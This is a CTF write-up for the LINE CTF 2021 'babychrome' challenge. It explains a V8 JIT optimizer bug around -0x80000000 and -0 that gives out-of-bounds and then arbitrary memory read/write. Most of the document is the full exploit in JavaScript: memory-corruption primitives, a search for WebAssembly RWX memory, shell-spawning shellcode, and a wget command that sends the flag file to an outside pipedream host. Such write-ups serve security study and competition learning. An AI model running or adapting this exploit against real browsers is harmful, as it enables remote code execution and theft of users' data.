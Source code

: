# LINE CTF 2021 - Pwn - babychrome

## Solution

Incorrect optimization is performed for the calculation of -0x80000000, which is the minimum value of 32bit signed int, and -0. (Reference: https://bugs.chromium.org/p/chromium/issues/detail?id=1126249)

It seems that the optimizer always determines `v5568` of `jit_func` as `0`, and when `arr.shift ()` is executed for `arr = new Array (v5568)`, `arr.length` becomes `-1`.
OOB read/write is possible by using `arr`, but due to the bad type, it can mainly read and write only integers.
We can get full OOB read / write capability by placing the Packed Double Array after `arr` and overwriting its length with OOB.

Then, by placing the `Uint Array after the` Packed Double Array` and rewriting the pointer to the stored memory, AAR / AAW becomes possible.

Finally, create a WebAssembly module, search the address of the RWX memory from Heap, rewrite it with shellcode, and execute it.

## Exploit Code

```javascript
function jit_func(a, k) {
    let v16213 = 0 * -1;
    var v25608 = -0x80000000;

    if (a) {
        v16213 = -1;
        v25608 = 0;
    }

    var v19229 = ((v16213-v25608) == -0x80000000);

    if (a) {
        v19229 = -1;
    }

    let v5568 = Math.sign(v19229);

    if (v5568 < 0) v5568 = 0;

    const arr = new Array(v5568);
    arr.shift();

    const arr2 = [0.1, 0.2, 0.3];
    const obj = new Uint8Array(v5568 * 0x1200);
    const wm = k ? k() : null;
    const obj2 = new Array(v5568 * 0x4e);

    return [arr, arr2, obj, wm, obj2];
}

const buf = new ArrayBuffer(8);
const view = new DataView(buf);

const d2i = (x) => {
    if (x == null) throw Error("null?");
    view.setFloat64(0, x);
    return (BigInt(view.getUint32(0)) << 32n) + BigInt(view.getUint32(4));
};

const i2d = (x) => {
    if (typeof x !== "bigint") throw Error(`invalid type: ${typeof x}`);
    view.setUint32(0, Number(BigInt.asUintN(32, x >> 32n)));
    view.setUint32(4, Number(BigInt.asUintN(32, x)));
    return view.getFloat64(0);
};

const wr = (w, x) => String(x).padStart(w);

const exploit = ([d, e, view, wasm_module, ...rest]) => {
    d[16] = 128;
    const buf_addr = d2i(e[17]);

    const www = (d2i(e[44]) >> 32n | (d2i(e[45]) & 0xFFFFFFFFn) << 32n);

    e[17] = i2d(www);

    const arr2i = (a) => {
        let x = 0n;
        for (let k = 0; k < 8; ++k) {
            x |= BigInt(a[k]) << BigInt(k * 8);
        }
        return x;
    };
    
    const addr = arr2i(view.slice(24, 32));

    e[17] = i2d(addr - 0x400n);

    nums = []
    for (let i = 0; i < 128; ++i) {
        for (let j = 0; j < 2; ++j) {
            const beg = i * 16 + j * 8;
            const x = arr2i(view.slice(beg, beg + 8));
            nums.push(x);
        }
    }

    let rwx_addr = null;

    for (let i = 0; i < nums.length - 4; ++i) {
        if (
            ((nums[i] & 0xFFFFFFFFn) === 1n) &&
            (nums[i + 1] + 0x1000n === nums[i + 2]) &&
            ((nums[i + 2] & 0xFFFn) === 0n) &&
            ((nums[i + 4] & 0xFFFFFFFFn) === 0x31n)
        ) {
            rwx_addr = nums[i + 1];
            break;
        }
    }

    if (rwx_addr) {
        e[17] = i2d(rwx_addr);
        const shellcode = [72, 185, 136, 119, 102, 85, 68, 51, 34, 17, 104, 45, 99, 0, 0, 72, 184, 47, 98, 105, 110, 47, 115, 104, 0, 80, 72, 137, 231, 106, 0, 81, 72, 141, 71, 8, 80, 87, 72, 137, 230, 49, 210, 184, 59, 0, 0, 0, 15, 5];
        for (let i = 0; i < 8; ++i) {
            shellcode[i + 2] = Number((buf_addr >> BigInt(8 * i)) & 0xFFn);
        }
        for (let i = 0; i < shellcode.length; i++) {
            view[i] = shellcode[i];
        }
        e[17] = i2d(buf_addr);

        const command = `wget "https://en6fa1x8r13pp.x.pipedream.net/$(cat flag)"`;
        for (let i = 0; i < command.length; i++) {
            view[i] = command.charCodeAt(i);
        }

        const wasm_instance = new WebAssembly.Instance(wasm_module);
        const a = new String('helloworld');
        const wasm_func = wasm_instance.exports.a;

        wasm_func();
    }
};

const wasm_code = new Uint8Array([
    0x00, 0x61, 0x73, 0x6d, 0x01, 0x00, 0x00, 0x00,
    0x01, 0x85, 0x80, 0x80, 0x80, 0x00, 0x01, 0x60,
    0x00, 0x01, 0x7f, 0x03, 0x82, 0x80, 0x80, 0x80,
    0x00, 0x01, 0x00, 0x06, 0x81, 0x80, 0x80, 0x80,
    0x00, 0x00, 0x07, 0x85, 0x80, 0x80, 0x80, 0x00,
    0x01, 0x01, 0x61, 0x00, 0x00, 0x0a, 0x8a, 0x80,
    0x80, 0x80, 0x00, 0x01, 0x84, 0x80, 0x80, 0x80,
    0x00, 0x00, 0x41, 0x00, 0x0b
]);

jit_func(false);
jit_func(true);

for (let i = 0; i < 0x10000; i++) {
    jit_func(true);
}

function gc() {
    for (let i = 0; i < 0x10; i++) { new ArrayBuffer(0x10000); }
}
gc();

exploit(jit_func(false, () => new WebAssembly.Module(wasm_code)));
```